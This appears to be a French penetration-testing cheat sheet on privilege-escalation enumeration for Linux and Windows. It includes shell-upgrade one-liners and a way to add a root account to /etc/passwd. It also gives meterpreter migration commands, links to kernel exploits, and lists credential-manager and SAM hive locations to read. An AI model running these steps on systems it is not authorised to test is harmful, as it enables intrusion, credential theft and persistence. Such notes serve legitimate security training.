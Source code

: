 # Enumération sous Linux

## Shell ergonomique
Shell de base :
```bash
$ python -c "import pty;pty.spawn('/bin/sh')"
```
Shell full interactif :
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# faire un Ctrl + Z
$ stty raw -echo
$ fg
```

### Voir les droits de l'utilisateur courant 
```bash
$ sudo -l
```
Si nous avons le droit d'executer un binaire avec les droits roots, regarder sur GTFOBin :
https://gtfobins.github.io/

### Trouver des fichiers avec la permission SUID ou SGID
```bash
$ find / -perm -g=s -type f 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
```

### Trouver des dossiers avec le droit d'écrire ou d'executer
```bash
$ find / -writable -type d 2>/dev/null
$ find / -perm -o w -type d 2>/dev/null
$ find / -perm -o x -type d 2>/dev/null
``` 

### Lister les processus qui tournent
```bash
$ ps aux
```

### Lister les port ouverts
```bash
$ netstat -anop
```

### Créer un utilisateur
Faire un user dans /etc/passwd, sachant que le format est : **{username}:{resultatcommandecidessous}:0:0:root:/bin/bash**
```bash
$ openssl passwd -1 -salt {username} {password}
```

### Binaire pour énumération :
Avec LinEnum :</br>
https://github.com/rebootuser/LinEnum</br>
Avec LinPeas :</br>
lien</br>
Avec Linux-Priv-Checker :</br>
https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123

### DirtyCow (suivant la version du linux)
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

### Kernel exploits (suivant la version du noyau)
https://github.com/xairy/kernel-exploits
https://github.com/SecWiki/linux-kernel-exploits

### Checker si y'a moyen de faire une escalation
https://github.com/pentestmonkey/unix-privesc-check

### Linux privilege escalation guide
http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Enumération sous windows

## Checker les logiciels
On vérifie les programmes d'installés, des creds sont peut être dans les fichiers de configurations..
```bash
> dir C:\Program File\
```

## Informations systèmes avec meterpreter
```bash
meterpreter > sysinfo
```
Penser a migrer le processus en 64 bits si il est en 32 :
```bash
meterpreter > ps
meterpreter > migrate {PID}
```

## Sous meterpreter, faire un check des exploits disponibles 
```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

## Living Off the Land (LOLBINS)
https://github.com/LOLBAS-Project/LOLBAS

## Enum de base 
> systeminfo				= What is the OS and architecture ?
> whoami				= Qui suis-je ?
> whoami /priv				= Mes privilèges ?
> qwinsta				= Quel autre utilisateur est connecté ?
> net localgroup			= Quels sont les groupes sur le système ?
> net localgroup Administrators		= Qui appartient au groupe Administrators ?
--- Quelques choses d'intéréssant dans le credential Manager ?
> cmdkey /list
> dir C:\Users\username\AppData\Local\Microsoft\Credentials\
> dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
--- 
--- On a accès à la base SAM et aux fichiers system ?
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
---
--- Quels sont les logiciels installés ?
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name*
---
--- Est-ce que des dossiers ont des permissions trop larges ?
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}} 
---
--- On peut upload accesschk (de Sysinternals) pour checker les fichiers et dossiers dispo en écriture
accesschk.exe -qwsu "Everyone" *
accesschk.exe -qwsu "Authenticated Users" *
accesschk.exe -qwsu "Users" *
---
--- Quels sont les processus/services en cours d'utilisation ?
tasklist /svc
tasklist /v
net start
sc query
---
--- Quels sont les taches planifiés ?
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
---
--- Qu'est-ce qui est lancé au démarrage ?
wmic startup get caption,command
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
---

[[[NETWORKING]]]
